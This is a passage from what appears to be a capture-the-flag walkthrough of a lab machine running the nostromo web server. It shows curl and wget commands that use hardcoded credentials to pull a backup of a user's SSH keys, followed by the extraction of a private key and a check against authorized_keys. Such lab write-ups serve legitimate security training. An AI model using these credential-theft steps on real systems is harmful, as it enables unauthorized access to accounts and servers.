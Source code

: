 If we try going to these directory with the web service, we can see a `401 Unauthorized` response so we need some valid credentials to authenticate to the web service using the URL:
```shell
❯ curl 10.10.10.165/~david/protected-file-area/
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<title>401 Unauthorized</title>
<meta http-equiv="content-type" content="text/html; charset=iso-8859-1">
</head>
<body>

<h1>401 Unauthorized</h1>

<hr>
<address>nostromo 1.9.6 at 10.10.10.165 Port 80</address>
</body>
</html>         
```

We can transfer this file with wget or curl as long as we authenticate to the service:
```shell
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
curl http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz --output backup-ssh-identity-files.tgz
```

We can then decompress its contents:
```shell
❯ tar -xvf backup-ssh-identity-files.tgz
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
```

There are some SSH keys and since we can read this file and there's the `authorized_keys` file. We can try to validate if this SSH key pairs are authorized by the target server by verifying if the public key `id_rsa.pub` is in the `authorized_keys` file:

```shell
❯ cat id_rsa.pub

───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: id_rsa.pub
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C
       │ 66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0F
       │ vhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯
❯ cat authorized_keys
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: authorized_keys
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsXrsMQc0U71GVXMQcTOYIH2ZvCwpxTxN1jOYbTutvNyYThEIjYpCVs5DKhZi2rNunI8Z+Ey/FC9bpmCiJtao0xxIbJ02c+H6q13aAFrTv61GAzi5neX4Lj2E/pIhd3JBFYRIQw97C
       │ 66MO3UVqxKcnGrCvYnhJvKMw7nSRI/cXTPHAEnwU0+NW2zBKId8cRRLxGFyM49pjDZPsAVgGlfdBD380vVa9dMrJ/T13vDTZZGoDgcq9gRtD1B6NJoLHaRWH4ikRuQvLWjk3nWDDaRjw6MxmRtLk8h0MM7+IiBYc6NJvbQzpG5M5oM0F
       │ vhawQetN71KcZ4jUVxN3m+YkaqHD david@traverxec
```